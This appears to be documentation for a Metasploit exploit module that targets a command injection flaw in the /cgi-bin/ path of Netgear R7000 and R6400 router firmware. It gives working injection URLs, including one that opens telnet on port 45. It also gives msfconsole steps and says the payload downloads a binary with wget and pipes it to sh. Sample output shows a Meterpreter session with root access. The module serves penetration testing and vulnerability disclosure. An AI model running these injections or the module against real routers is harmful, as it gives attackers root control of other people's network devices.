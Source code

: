 ## Introduction
The `netgear_r7000_cgibin_exec` module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. A fairly useful manual command injection is like so: `http://<RouterIP>/cgi-bin/;telnetd$IFS-p$IFS'45'` will open telnet on port 45.


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_cgibin_exec`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set PAYLOAD <payload>`
  5. Do: `run`
  6. If the router is a R7000 or R6400, you should get a session

## Options

  **PAYLOAD**

  The valid payloads are `meterpreter` payloads _only_. The payload uses the `wget` flavor and pipes the downloaded binary to `sh`

## Scenarios

  Sample output of a successful session:

  ```
  msf exploit(netgear_r7000_cgibin_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Router is a NETGEAR router (R7000)
[+] Router may be vulnerable (NETGEAR R7000)
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://[redacted]:8080/
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54168) at 2017-03-10 15:56:21 -0600
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.1.4
OS           :  (Linux 2.6.36.4brcmarm+)
Architecture : armv7l
Meterpreter  : armle/linux
meterpreter >
  ```

  As you can see, the `uid` is 0, meaning you have root access.


